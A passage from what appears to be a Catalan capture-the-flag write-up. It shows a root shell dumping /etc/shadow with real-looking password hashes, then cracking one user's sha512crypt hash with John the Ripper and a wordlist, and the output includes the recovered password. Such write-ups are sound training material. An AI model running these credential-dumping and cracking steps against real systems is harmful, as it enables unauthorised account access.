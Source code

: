 ```
root@c184118df0a6:/# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::`
```

Sembla que acabem de trobar el que podria ser un hash de la contrasenya de l'usuari michael. També el de l'usuari root. Per tant, primer hem de mirar quin tipus de hash són, per fer això, anirem a la següent web: https://hashes.com/en/decrypt/hash . Pel que se'ns diu és un hash SHA512, per tant intentarem crackejarlo amb John the Ripper, per això, genero el fitxer user_hash i hi copio el hash a dins:

``$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/``

I ara amb John intentem crackejarlo:

```
┌──(root㉿kaliPol)-[/home/polkali/Documents/Sightless]
└─# john user_hash -w=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (?)     
1g 0:00:00:10 DONE (2024-09-23 22:39) 0.09157g/s 5380p/s 5380c/s 5380C/s kruimel..cuteface
Use the "--show" option to display all of the cracked passwords reliably
Session completed. `
```

